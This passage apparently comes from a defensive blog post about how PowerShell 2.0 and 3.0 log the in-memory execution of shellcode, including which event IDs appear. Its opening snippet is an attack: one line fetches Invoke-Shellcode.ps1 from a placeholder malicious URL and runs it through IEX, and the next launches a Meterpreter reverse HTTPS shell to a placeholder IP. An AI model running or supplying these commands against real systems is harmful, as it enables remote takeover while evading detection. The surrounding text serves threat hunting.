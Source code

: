 ```
PowerShell:
IEX (New-Object Net.WebClient).DownloadString("https://<Malicious URL>/Invoke-Shellcode.ps1")
Invoke-ShellCode -Payload windows/meterpreter/reverse_https -Lhost <malicious IP> -Lport 443 -Force
```

  

### Event Logging

Because both the download and ShellCode connections are via HTTPS most perimeter IPS/AntiVirus will not inspect them. The ShellCode runs in memory and doesn't hit the disk, leaving it very difficult to detect by both Antiviruses and classic forensics, but the important thing to focus on here is how PowerShell logs these events while hunting. Executing the above on a Windows 2008 R2 OS with PowerShell 2.0 generates only three relevant events in the Windows PowerShell event log:  

[![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjgjACjneD5MmvX3C6d-iHEQgHRUIGr_bOx0Aiz0SKPvrYF5qE_PGALT4wteV3uUGmABzwqF8BiTVPkI0DvrhkbKjG8qNLn2d8Pq47EjKY5SI-8dOvG4JeNn7UeSCQl7RI5Jl2gceq9_xPq/s1600/PowerShell+2.0+Invoke-ShellCode+Events+-+EventLog.PNG)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjgjACjneD5MmvX3C6d-iHEQgHRUIGr_bOx0Aiz0SKPvrYF5qE_PGALT4wteV3uUGmABzwqF8BiTVPkI0DvrhkbKjG8qNLn2d8Pq47EjKY5SI-8dOvG4JeNn7UeSCQl7RI5Jl2gceq9_xPq/s1600/PowerShell+2.0+Invoke-ShellCode+Events+-+EventLog.PNG)

The Windows PowerShell Event Log After Executing ShellCode in PowerShell

  
Leaving basically three events to go by:

400

Engine state is changed from None to Available.

403

Engine state is changed from Available to Stopped.

600

Provider "Certificate" is Started.

WinEventLog:Windows PowerShell

There is nothing in the event logs about running a script that invokes a ShellCode backdoor to my malicious C&C domain. Can you believe Windows Event Logs? Ridiculous. But security wise this is a serious concern since there is no indication of what commands or scripts were run, by whom, or what actions the system took. Running similar scripts such as Invoke-Mimikatz also produces roughly the same events from within a PowerShell context.  
  
This is a well known limitation in PowerShell 2.0; however, the challenge is that most environments run operating systems that have PowerShell 2.0 installed by default default leaving organizations who don't use PowerShell having little reason to upgrade. This also leaves an active hole in an organization's security posture towards potential threat vectors. You can't understand what is happening if your system won't tell you.  
  
PowerShell 3.0 comes with many improvements including improved logging, so running the above command on a machine with PowerShell 3.0 will give you the same three events in Windows PowerShell, but it will also give you a number of new events in both Windows-PowerShell/Operational and Windows-WinRM/Operational.  
  